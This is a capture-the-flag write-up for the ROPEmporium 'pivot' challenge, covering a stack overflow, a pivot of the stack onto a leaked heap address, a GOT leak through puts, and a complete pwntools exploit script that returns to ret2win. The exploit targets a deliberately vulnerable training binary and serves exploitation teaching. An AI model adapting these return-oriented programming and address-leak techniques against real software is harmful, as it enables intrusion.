



# "pivot" ROPEmporium Challenge 7 Writeup

The usual...

```sh
checksec --file=pivot
checksec --file=libpivot.so
rabin2 -z pivot
rabin2 -z libpivot.so
objdump -d pivot
objdump -d libpivot.so
```

`libpivot` contains a `foothold_function` which is also imported into `pivot`
as `foothold_function@plt`, but never called.
Furthermore, there is a `ret2win` function within `libpivot`, it is our goal
to call it, however `ret2win` has no `plt` entry in our main `pivot`
executable.

The `pivot`'s main allocates some memory on the heap, then passes a pointer to
this forward to `pwnme`.
The heap address is already being leaked by the app itself, we don't need to
do anything in that regard.
`pwnme` first reads 256 (0x100) bytes into this heap region, then reads another
64 (0x40) bytes onto the stack (where only 0x20 or 32 bytes should've been
read).

```
gdb ./pivot
b *pwnme+165 # break before the second read onto the stack
r
hello, world # first read onto heap, type in some stuff
# breakpoint hit
pattern create 200
c
# copy-paste pattern as input to second read
# Segmentation fault
x/x $rsp
# 0x4141464141304141
pattern offset 0x4141464141304141
# 4702116732032008513 found at offset: 40
```

In order to call `ret2win` we need to know its real address.
The ROPEmporium suggests a few different approaches.

## Solution 1

> There are a few different ways you could approach this problem; printing
> functions like puts() can be used to leak values from the binary, after which
> execution could be redirected to the start of main() for example, where
> you're able to send a fresh ROP chain that contains an address calculated
> from the leak.

- Use `puts` or `printf` to leak the address of `foothold_function`.
  Note that in order to get the correct address, `foothold_function` needs to
  be called once first for the address to be resolved, only then we can leak
  it.
- Having leaked the address, we jump back to `main` to run another ROP-chain.
- Since we have the binary, we know the offset of both `foothold_function`
  (0x096a) and `ret2win` (0x0a81).
- `ret2win`'s real address must then be `foothold_function@got.plt - 0x096a +
  0x0a81`.

---

But just how does this PLT business work?

```
0000000000400720 <foothold_function@plt>:
  400720:       ff 25 1a 09 20 00       jmpq   *0x20091a(%rip)        # 601040 <foothold_function>
  400726:       68 05 00 00 00          pushq  $0x5
  40072b:       e9 90 ff ff ff          jmpq   4006c0 <.plt>
```

The first `jmp` instruction points to an entry in the `.got.plt` section.
At first, this entry points right back to the `push` instruction on the next
line.



An offset identifying the function to be resolved is pushed onto the stack
(`pushq  $0x5`), then the dynamic loader is called (`jmpq   4006c0 <.plt>`)
to resolve the function's address for us.
The loader updates the pointer in the `.got.plt` section so that it points
to the function's resolved address.

In all future calls the `jmp` will directly go to the right address.



Using pwntools we obtain the pointer into the `.got.plt` section using
`foothold_got = elf.got['foothold_function']`.

We can also list the different sections with `readelf -S pivot` and specifically
the contents of the `.got.plt` section by using `readelf -r pivot`.

```
Relocation section '.rela.plt' at offset 0x5c8 contains 9 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000601040  000800000007 R_X86_64_JUMP_SLO 0000000000000000 foothold_function + 0
# this ----^
# ... SNIP: other entries ..
```

`puts` prints out a null-terminated string found at the address pointed to by its only
argument ($rdi).
In other words, if we give `puts` the pointer into the `.got.plt`, it will dereference
it and print out the function address stored there.

```python
payload += p64(pop_rdi) + p64(foothold_got) + p64(puts_plt)
```

[This blog](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
provides a more detailed explanation.

---

We use the `pwntools` library to create an exploit script.

```python
#!/usr/bin/env python3
from pwn import *
context.bits = 64
context.arch = 'amd64'

process_name = './pivot'
lib_name = './libpivot.so'
elf = ELF(process_name)
libelf = ELF(lib_name)
rop = ROP(elf)

DEBUG = True
DEBUG_ARGS = '''
# ret of pwnme
b *pwnme+182
b main
# pop rdi; ret gadget
#b *0x400a33
'''

if DEBUG:
    p = gdb.debug(process_name, DEBUG_ARGS)
else:
    p = process(process_name)
```

When run, the app voluntarily leaks the heap address, we parse it using:

```python
p.recvuntil(b'place to pivot: ')
heap_address = p.recvuntil(b'Send a ROP')
heap_address = heap_address.replace(b'\nSend a ROP', b'')
heap_address = int(heap_address, 16)
info('READ HEAP ADDRESS: %s' % hex(heap_address))
```

Because there is not enough space in our buffer overflow, we make the stack
pointer point to the leaked heap address, effectively moving the stack into a
much bigger area under our control.

We find a gadget to `pop rsp`:

```python
pop_rsp = rop.find_gadget(['pop rsp'])
# Gadget(0x400a2d, ['pop rsp', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['rsp', 'r13', 'r14', 'r15'], 0x28)
```

It also pops three more registers, we just put dummy values in them.

```python
pop_rsp = rop.find_gadget(['pop rsp'])[0]

stack_payload  = b'A'*40
stack_payload += p64(pop_rsp)
stack_payload += p64(heap_address)

assert len(stack_payload) <= 64, "Stack payload must NOT be larger than 64 bytes!"
p.sendline(stack_payload)
```

After popping the leaked heap address into $rsp, the next value will be popped
from our heap memory, so we write the rest of our ROP-chain there:

```python
heap_payload  = p64(0x13) + p64(0x14) + p64(0x15)                # dummy values
```

The `foothold_function` is imported into our binary, therefore there is a
`.plt` entry:

```
0000000000400720 <foothold_function@plt>:
  400720:       ff 25 1a 09 20 00       jmpq   *0x20091a(%rip)        # 601040 <foothold_function>
  400726:       68 05 00 00 00          pushq  $0x5
  40072b:       e9 90 ff ff ff          jmpq   4006c0 <.plt>
```

We resolve `foothold_function` and then leak its address.
This done, with a little detour over an extra `ret` (otherwise a `movaps`
instruction within `buffered_vfprintf()` would crash our process due to our
messing with the stack making it unaligned) we go back to `main`.

```python
foothold_plt = elf.plt['foothold_function']
foothold_got = elf.got['foothold_function']
puts_plt     = elf.plt['puts']
main_func    = elf.sym['main']

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret     = rop.find_gadget(['ret'])[0]

heap_payload  = p64(0x13) + p64(0x14) + p64(0x15)                # dummy values
heap_payload += p64(foothold_plt)                                # call foothold to resolve its address
heap_payload += p64(pop_rdi) + p64(foothold_got) + p64(puts_plt) # load foothold's .got.plt entry into $rdi, call puts to print out the resolved address it points to.
heap_payload += p64(ret)                                         # extra padding for stack alignment
heap_payload += p64(main_func)                                   # re-run from main

assert len(heap_payload) <= 256, "Heap payload must NOT be larger than 256 bytes!"
p.sendline(heap_payload)
```

Meanwhile we use `pwntools` to parse the leaked address from `stdout`.
To calculate the library base, we subtract the function's offset from its
leaked address.

```python
p.recvuntil(b'gain a foothold into libpivot\n')
leaked_foothold_got = p.recvuntil(b'\n')
leaked_foothold_got = leaked_foothold_got.replace(b'\n', b'')
leaked_foothold_got = u64(leaked_foothold_got.ljust(8, b'\x00'))
info('LEAKED FOOTHOLD GOT: %s' % hex(leaked_foothold_got))
libelf.address = leaked_foothold_got - libelf.sym['foothold_function']
info('FOUND FOOTHOLD BASE @ %s' % hex(libelf.address))
```

On the second run from `main` we just input dummy text into the heap, this
time our payload is small enough to fit on the stack.
Now that we know the real addresses of any of the library's functions, we can
easily return to `ret2win` completing the challenge.

```python
p.recvuntil(b'> ') # wait till the program is ready to process input
p.sendline(b'WHATEVER')

second_stack_payload  = b'A'*40                    # overflow stack
second_stack_payload += p64(libelf.sym['ret2win']) # jump directly to the resolved address

assert len(second_stack_payload) <= 64, "Stack payload must NOT be larger than 64 bytes!"
p.sendline(second_stack_payload)
```

<details>
<summary>The full exploit script</summary>

```python
#!/usr/bin/env python3
from pwn import *
context.bits = 64
context.arch = 'amd64'

process_name = './pivot'
lib_name = './libpivot.so'
elf = ELF(process_name)
libelf = ELF(lib_name)
rop = ROP(elf)

DEBUG = False
DEBUG_ARGS = '''
# ret of pwnme
b *pwnme+182
b main
# pop rdi; ret gadget
#b *0x400a33
'''

if DEBUG:
    p = gdb.debug(process_name, DEBUG_ARGS)
else:
    p = process(process_name)

foothold_plt = elf.plt['foothold_function']
foothold_got = elf.got['foothold_function']
puts_plt     = elf.plt['puts']
main_func    = elf.sym['main']

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsp = rop.find_gadget(['pop rsp'])[0]
ret     = rop.find_gadget(['ret'])[0]

# The make the challenge simpler, the app will helpfully print out the heap
# address.
p.recvuntil(b'place to pivot: ')
heap_address = p.recvuntil(b'Send a ROP')
heap_address = heap_address.replace(b'\nSend a ROP', b'')
heap_address = int(heap_address, 16)
info('READ HEAP ADDRESS: %s' % hex(heap_address))

# First we can write up to 256 (0x100) bytes onto the heap.
# Our pop_rsp gadget (used further down) first make the stack point to here,
# then it will pop the three registers r13, r14, and r15.
heap_payload  = p64(0x13) + p64(0x14) + p64(0x15)
heap_payload += p64(foothold_plt)                                # call foothold to resolve its address
heap_payload += p64(pop_rdi) + p64(foothold_got) + p64(puts_plt) # load footholds resolved address into $rdi, call puts to print it out
heap_payload += p64(ret) # extra padding for stack alignment
heap_payload += p64(main_func)                                   # re-run from main

assert len(heap_payload) <= 256, "Heap payload must NOT be larger than 256 bytes!"
p.sendline(heap_payload)

# Then we read up to 64 (0x40) bytes onto the stack.
stack_payload  = b'A'*40 # overflow buffer
stack_payload += p64(pop_rsp)
stack_payload += p64(heap_address)

assert len(stack_payload) <= 64, "Stack payload must NOT be larger than 64 bytes!"
p.sendline(stack_payload)

p.recvuntil(b'gain a foothold into libpivot\n')
leaked_foothold_got = p.recvuntil(b'\n')
leaked_foothold_got = leaked_foothold_got.replace(b'\n', b'')
leaked_foothold_got = u64(leaked_foothold_got.ljust(8, b'\x00'))
info('LEAKED FOOTHOLD GOT: %s' % hex(leaked_foothold_got))
libelf.address = leaked_foothold_got - libelf.sym['foothold_function']
info('FOUND FOOTHOLD BASE @ %s' % hex(libelf.address))

# At this point we have restarted the app from main.
# This run we use the calculated addresses to call ret2win directly from pwnme.
p.recvuntil(b'> ')                                                                 # wait till the program is ready to process input
p.sendline(b'Thank you heap you\'ve been very useful, but I won\'t need you now!') # this time we won't need the heap

second_stack_payload  = b'A'*40                    # overflow stack
second_stack_payload += p64(libelf.sym['ret2win']) # jump directly to the resolved address

assert len(second_stack_payload) <= 64, "Stack payload must NOT be larger than 64 bytes!"
p.sendline(second_stack_payload)

p.interactive()
```
</details>

Result:



## Solution 2

> Another solution could be to modify a .got.plt entry in-place using a write
> gadget, then calling the function whose entry you modified.

- ?????
- Modify a `.got.plt` entry in-place using a write gadget, then call the
  function whose entry we modified.
- ?????

## Solution 3

> You could also read a .got.plt entry into a register, modify it in-memory,
> then redirect execution to the address in that register.

- Call `foothold_function@plt` once, so that its address is resolved.
- Read its `.got.plt` entry into a register, modify it in-memory, redirect
  execution to the address in the register.
- To call `ret2win` we modify the address to be `foothold_function@got.plt -
  0x096a + 0x0a81`
